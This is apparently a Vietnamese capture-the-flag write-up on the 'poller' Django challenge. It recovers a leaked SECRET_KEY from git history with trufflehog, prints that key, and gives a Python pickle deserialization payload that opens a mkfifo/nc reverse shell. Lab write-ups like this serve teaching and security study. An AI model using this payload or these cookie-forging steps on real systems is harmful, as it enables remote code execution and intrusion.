 ![client_src_code](https://user-images.githubusercontent.com/71699412/167298273-ad5042a5-bb9c-4840-b1a5-5d1b65f357ae.jpg)

https://github.com/congon4tor/poller


git clone về review source-code tìm vulnerablity, đây là python web app được build trên `django`, review 1 hồi thì không có tìm được cái gì là sai sai, cũng không thấy mặt mũi flag, có lẽ mục tiêu là RCE. Vào lại git repository tìm đến mục `History` xem có security issue nào được chỉnh sửa ở history không.
 
 ![history](https://user-images.githubusercontent.com/71699412/167298278-f3a78147-f331-40e3-a3e1-aa46de2c0720.jpg)

Ta tìm thấy lỗi sensitive data expose SECRET_KEY, với SECRET_KEY này ta có thể sign cookies và làm nhiều thứ khác....

![pickcle_src](https://user-images.githubusercontent.com/71699412/167298285-8b6c4cb9-787e-4347-94ff-c675c9912f14.jpg)

Ngoài ra app này dùng pickle để unserialize thẳng từ cookies, rõ ràng đây là lỗi object injection, một lỗi nghiêm trọng có thể dẫn đến RCE, read files,...

#### Exploit
Sau khi có SECRET_KEY ta thử tự serialize RCE payload nhưng fail, thử verify bằng SECRET_KEY với cookies của web app thì fail, rõ ràng đây không phải SECRET_KEY đúng, đừng láu táu.

Ta dùng đến tool `trufflehog`, 1 tool giúp scan các app phổ biến tìm senstive data expose như SECRET_KEY hay api key,...

src: https://github.com/trufflesecurity/trufflehog

Sau khi install, can git repository tìm sensitive data với command:
```bash
sudo docker run -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest git https://github.com/congon4tor/poller --debug --trace
```
Ta được results:

![secret_key_results](https://user-images.githubusercontent.com/71699412/167298292-933eefe3-2d96-43c1-9f67-20a69895aec4.jpg)

Ta tìm thấy được 1 SECRET_KEY khác với cái vừa tìm được:
```bash
SECRET_KEY=77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!
````

Thử dùng cái này verify cookies thì success, rõ ràng đây chính là SECRET_KEY của app và ta có thể dùng nó để tự sign cookies.

Như đã nói từ trước, cookies của app này là 1 serialized string object được serialize bằng python pickle module và được unserialize 1 cách insecure, ta sẽ tấn công object injection để đạt được RCE.

python scripts:
```python
import pickle
import os


class RCE:
    def __reduce__(self):
        # import os
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


def verify(cookies, SECRET_KEY, salt):
    try: # mô phỏng thôi, cứ để nó dump error cho dễ debug
        results = loads(cookies, key=SECRET_KEY, serializer=PickleSerializer, salt=salt)
        return "Horray, it's a valid SECRET_KEY, decoded cookies: " + results
    except:
        return 'It\'s not a valid SECRET_KEY'
```